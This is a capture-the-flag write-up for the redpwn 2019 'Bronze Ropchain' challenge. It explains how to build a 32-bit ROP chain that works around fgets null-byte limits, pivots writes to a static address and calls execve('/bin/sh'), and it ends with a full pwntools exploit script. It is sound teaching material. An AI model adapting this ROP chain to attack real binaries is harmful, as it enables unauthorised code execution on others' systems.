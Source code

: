 # Bronze Ropchain
To solve this challenge, you have to know how `fgets function` read user data. 
`fgets function` read user data until it reaches **null byte** (0x00) or **new line** (0x0a)
so when we do `ROP`, we can't use any address that contains `null` or `new line`

Because this challenge compiled with static-linking, there are many gadgets that we can use.
I found `mov eax, 2 ; ret`, `inc eax ; ret`, `inc edi ; ret`, `inc esi ; ret`, `pop ecx ; pop ebx ; ret`, `pop esi ; pop edi ; ret`, `call large dword ptr gs:10h` (syscall)

Because there are no "/bin/sh" string in binary, we have to write this string at writable static address.
To know this address range, just run this binary at gdb and use `vmmap` command.
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x80d7000 r-xp    8f000 0      /home/bound7/Desktop/ctf/redpwn/bronze_ropchain/bronze_ropchain
 0x80d8000  0x80dc000 rw-p     4000 8f000  /home/bound7/Desktop/ctf/redpwn/bronze_ropchain/bronze_ropchain
 0x80dc000  0x80ff000 rw-p    23000 0      [heap]
0xf7ff9000 0xf7ffc000 r--p     3000 0      [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000 0      [vdso]
0xfffdd000 0xffffe000 rw-p    21000 0      [stack]
```
we can use **0x080d8000 ~ 0x080dc000** ( we can't use stack because of ASLR )
and I use fgets_greet_ret gadget which is part of main function to write '/bin/sh' string at this address range.

```
.text:0804895B                 add     esp, 10h
.text:0804895E                 mov     eax, offset stdin
.text:08048964                 mov     eax, [eax]
.text:08048966                 sub     esp, 4
.text:08048969                 push    eax
.text:0804896A                 push    400h
.text:0804896F                 lea     eax, [ebp+var_408]
.text:08048975                 push    eax
.text:08048976                 call    fgets
.text:0804897B                 add     esp, 10h
.text:0804897E                 sub     esp, 0Ch
.text:08048981                 lea     eax, [ebp+var_408]
.text:08048987                 push    eax
.text:08048988                 call    greet
.text:0804898D                 add     esp, 10h
.text:08048990                 mov     eax, 0
.text:08048995                 lea     esp, [ebp-8]
.text:08048998                 pop     ecx
.text:08048999                 pop     ebx
.text:0804899A                 pop     ebp
.text:0804899B                 lea     esp, [ecx-4]
.text:0804899E                 retn
```
because this gadget read data based on `ebp` register, i give static address to ebp register.
In details, this gadget write user input at `ebp-0x408` so i set `ebp` register to `target_addr+0x408`.
after use this gadget, we can write data which we know where it is. ( change stack to static address )

to exploit successfully, we have to use syscall.
To call successfull /bin/sh, the registers should be set as shown below.
```
eax <- 0xb                     ( sys_execve )
ebx <- 0x080d8108 <- '/bin/sh' ( arg1 )
ecx <- 0x080d8140 <- 0x0       ( arg2 )
edx <- 0x0                     ( arg3 )
edi <- 0x080da000 <- 0         ( global_offset_table )
esi <- 0x080da000 <- 0         ( global_offset_table )
```
`eax` ->`mov eax, 2 ; ret` and `inc eax ; ret`.
`ebx` and `ecx` -> `pop ecx ; pop ebx ; ret`.
`edx` -> use `getchar()` in `greet` function. just send '\x00'.
`edi` and `esi` -> `pop esi ; ret`, `pop edi ; ret`, `inc esi ; ret`, `inc edi ; ret`
because the address of `global_offset_table` starts with `null`, we can't directly give this address.
so pop `global_offset_table-0x1` and increase `esi` and `edi` register to bypass this restriction.

# Full Exploit Code
```
from pwn import *

#p = process('./bronze_ropchain')
p = remote('chall2.2019.redpwn.net', 4004)
t = 0.05

syscall = 0x0806dd22
fgets_strcpy = 0x0804895b

pop_ecx_ebx_ret = 0x0806ef52
pop_esi_edi_ret = 0x08049b2a
inc_eax_ret = 0x0807c3b9
inc_esi_ret = 0x08052be6
inc_edi_ret = 0x08049ce4
mov_eax_2_ret = 0x08092db0

binsh = 0x080d80a0
global_offset_table = 0x080da000

payload = ''
payload += 'a'*0x18
payload += p32(binsh+0x408)
payload += p32(fgets_strcpy)

p.sendline(payload)
sleep(t)
p.send('\x00')
sleep(t)

'''
pop ecx
pop ebx

mov eax, 2
inc eax X 9

pop esi
pop edi
inc esi
inc edi
call large dword ptr gs:10h

eax <- 0xb                     ( sys_execve )
ebx <- 0x080d8108 <- '/bin/sh' ( arg1 )
ecx <- 0x080d8140 <- 0x0       ( arg2 )
edx <- 0x0                     ( arg3 )
edi <- 0x080da000 <- 0         ( global_offset_table )
esi <- 0x080da000 <- 0         ( global_offset_table )
'''

payload = ''
payload += 'a'*0x18 # dummy
payload += 'aaaa' # ebp
payload += p32(pop_ecx_ebx_ret)
payload += p32(binsh+0xa0) # address that point null byte
payload += p32(binsh+0x68) # address that point /bin/sh\x00 string
payload += p32(mov_eax_2_ret)
for i in range(9):
	payload += p32(inc_eax_ret)

payload += p32(pop_esi_edi_ret)
payload += p32(global_offset_table-0x1) # bypass null byte
payload += p32(global_offset_table-0x1) # bypass null byte
payload += p32(inc_esi_ret)
payload += p32(inc_edi_ret)
payload += p32(syscall)
payload += '/bin/sh\x00'

p.sendline(payload)
sleep(t)

p.send('\x00') # set edx 0x0

p.interactive()
```
